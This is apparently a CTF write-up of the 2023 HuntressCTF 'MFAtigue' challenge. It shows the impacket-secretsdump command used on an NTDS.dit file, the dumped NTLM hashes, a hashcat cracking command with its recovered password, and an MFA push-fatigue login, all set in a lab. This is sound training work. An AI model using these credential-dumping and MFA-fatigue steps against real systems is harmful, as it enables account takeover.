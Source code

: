 ```yaml
---
title: 2023 HuntressCTF - MFAtigue
date: 2023-11-01T07:00:00-07:00
tags:
  - mfa
  - ntds
  - hash
  - impacket-secretsdump
image: /2023-HuntressCTF/mfa.png
---
```


### Summary
```
Author: Adam Rice

We got our hands on an NTDS file, and we might be able to break into the Azure Admin account! Can you track it down and try to log in? They might have MFA set up though...
```

### Steps

This challenge we given a `NTDS.zip` file and a docker instance to connect to.  I extracted the file and confirmed with `file` that its a Windows registry file.  Next I used `impacket-secretsdump` to dump the hashes from the .dits file. 
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM local -outputfile ./results.txt
```

This tool was able to extract the hash for multiple users.
```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:53ffcddea58170b42267fa689f0fa119:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-UUTKPJ98ERD$:1000:aad3b435b51404eeaad3b435b51404ee:ef38fd14274db386b7b5bbddcb37f953:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:948e12fcf27797f773c901c7e1b069d8:::
huntressctf.local\PAMELA_MCCARTHY:1103:aad3b435b51404eeaad3b435b51404ee:98574cb0badfc5d11094dd239af97da2:::
huntressctf.local\MATHEW_BERG:1104:aad3b435b51404eeaad3b435b51404ee:c7e3f4aa78cb46c0b47e61809cef8ca8:::
huntressctf.local\ETHAN_WELCH:1105:aad3b435b51404eeaad3b435b51404ee:151cb8e8e6b942bb0495e88c02365c19:::
huntressctf.local\RILEY_LANGLEY:1106:aad3b435b51404eeaad3b435b51404ee:565911c8b1e206319277f50207377fb1:::
huntressctf.local\PASQUALE_CHRISTIAN:1107:aad3b435b51404eeaad3b435b51404ee:7a2c60c628bda5d963a5934ec733f85f:::
huntressctf.local\HELENA_HESS:1108:aad3b435b51404eeaad3b435b51404ee:feb58b0c807bc1ef3adc390dabc1f6ac:::
huntressctf.local\SALLIE_BALLARD:1109:aad3b435b51404eeaad3b435b51404ee:e7c417bd62f442b1ee53bf70c8d656ef:::
huntressctf.local\LOU_NAVARRO:1110:aad3b435b51404eeaad3b435b51404ee:189b758028dc7ea177e26b990f09aad0:::
huntressctf.local\EDGARDO_DOWNS:1111:aad3b435b51404eeaad3b435b51404ee:38170f23f241863a09d07b2f438fe35a:::
huntressctf.local\GENE_SAWYER:1112:aad3b435b51404eeaad3b435b51404ee:3f8aa43a8714b6cba6438ab8e2890576:::
huntressctf.local\JILLIAN_DOTSON:1113:aad3b435b51404eeaad3b435b51404ee:08e75cc7ee80ff06f77c3e54cadab42a:::
huntressctf.local\EILEEN_NGUYEN:1114:aad3b435b51404eeaad3b435b51404ee:a03d6125a5d27301c10657d20bcb11f0:::
huntressctf.local\8385424457SA:1115:aad3b435b51404eeaad3b435b51404ee:a41edb7e4b7e68bb594d42de289ef4e2:::
huntressctf.local\BERTIE_PRINCE:1116:aad3b435b51404eeaad3b435b51404ee:eb0694cb60d647825ebc6420e0b4f4d4:::
huntressctf.local\KIRK_BARKER:1117:aad3b435b51404eeaad3b435b51404ee:04f60aa2def14e3a0703480d46a74b5c:::
huntressctf.local\PHOEBE_LEWIS:1118:aad3b435b51404eeaad3b435b51404ee:9bc8530fb646ed162646f50dab5ca44a:::
huntressctf.local\LILY_DUNLAP:1119:aad3b435b51404eeaad3b435b51404ee:ab69b9f2f7db11b28dde05ef92961335:::
```

Next, I passed this file to hashcat to try to crack the hashes using the following: `hashcat -m 1000 results.txt.ntds /usr/share/wordlists/rockyou.txt --force`.

Hashcat was able to find crack the hash for one user:
```bash
huntressctf.local\JILLIAN_DOTSON:katlyn99
```

I started up the docker instance and attempted to login with the newly discovered credentials.

![](/2023-HuntressCTF/mfa2.png)

I confirmed the credentials work as I was presented with a `Send Push Notification`.  Based on the challenge title `MFAtigue`, I decided to spam the Send Push Notification button, hoping the user would be annoyed and approve one of the requests. 

After a few attempts, I was presented with the flag: `flag{9b896a677de35d7dfa715a05c25ef89e}`

![](/2023-HuntressCTF/mfa3.png)